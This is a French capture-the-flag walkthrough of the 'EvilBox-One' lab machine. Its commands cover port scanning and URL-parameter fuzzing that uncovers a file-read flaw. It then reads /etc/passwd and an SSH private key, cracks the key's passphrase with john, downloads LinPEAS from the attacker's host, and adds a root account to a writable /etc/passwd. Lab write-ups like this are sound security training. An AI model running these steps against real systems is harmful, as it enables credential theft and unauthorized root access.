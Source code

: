 # EvilBox-One

    sudo nmap -A -p1-10000 192.168.161.212
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.212 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.212
    feroxbuster -u http://192.168.161.212

Scans classiques. 

Quasiment rien d'intéressant à part un dossier /secret que j'ai décidé d'énumérer également :

    ffuf -u http://192.168.161.212/secret/FUZZ -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -e .php,.php5,.txt,.ini,.conf,.log,.html,.js,.bak,.aspx,.asp -fc 403

On voit qu'il contient un fichier **"evil.php"** mais ce dernier est complètement vide aussi. J'ai bloqué pendant un moment avant de voir, grâce à un indice, qu'il fallait également faire du fuzzing sur les paramètres de l'URL. Cela peut se déduire par élimination. Et il faut bien penser à essayer avec différents types de paramètres pour brosser un maximum de possibilités : du texte, des chiffres, un nom de fichier, etc.

    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=aaaaa -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=12345 -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0
    ...
    ffuf  -u http://192.168.161.212/secret/evil.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt  -fs 0

Les premières commandes ne donnent rien mais dans la dernière il y a un paramètre **"command"** qui nous sort une page web de taille supérieure à 0. Et en effet, en allant sur la page http://192.168.161.212/secret/evil.php?command=/etc/passwd on voit un contenu de fichier /etc/passwd affiché à l'écran.

En cherchant des utilisateurs qui ont un shell différent de **"/usr/sbin/nologin"** on voit un **"mowree"** et comme le paramètre ne marche pas avec les dossiers je me suis orienté vers la clé SSH. 

En visitant http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa on tombe bien sur la clé de cet utilisateur. Quand on essaye de se connecter en SSH, un mot de passe est demandé. La seule chose à faire est donc de tenter de casser la passphrase en espérant qu'elle soit assez faible. Et c'est le cas : 

    curl http://192.168.161.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa -o  id_rsa
    ssh2john id_rsa > mowree.txt
    john mowree.txt

Attention à bien passer par la ligne de commande pour éviter les problèmes de format pour les clés.
Connexion au serveur avec la passphrase fraîchement obtenue : 

    chmod 600 id_rsa
    ssh  -l mowree -i  id_rsa 192.168.161.212
    cat local.txt

Élévation de privilèges classique, LinPEAS a trouvé que le fichier /etc/passwd était accessible en écriture et je peux donc me rajouter comme utilisateur :

    wget http://192.168.45.199/linpeas.sh
    chmod u+x linpeas.sh  
    ./linpeas.sh | tee linpeas.txt
    less -R linpeas.txt
	...
	openssl passwd -1 mdp123
    echo 'tim:$1$32DcXeSt$KWQS4pZ0.TchxHMtQoYCM0:0:0:/root/:/bin/bash' >> /etc/passwd
    su tim
    ls /root
    cat /root/proof.txt
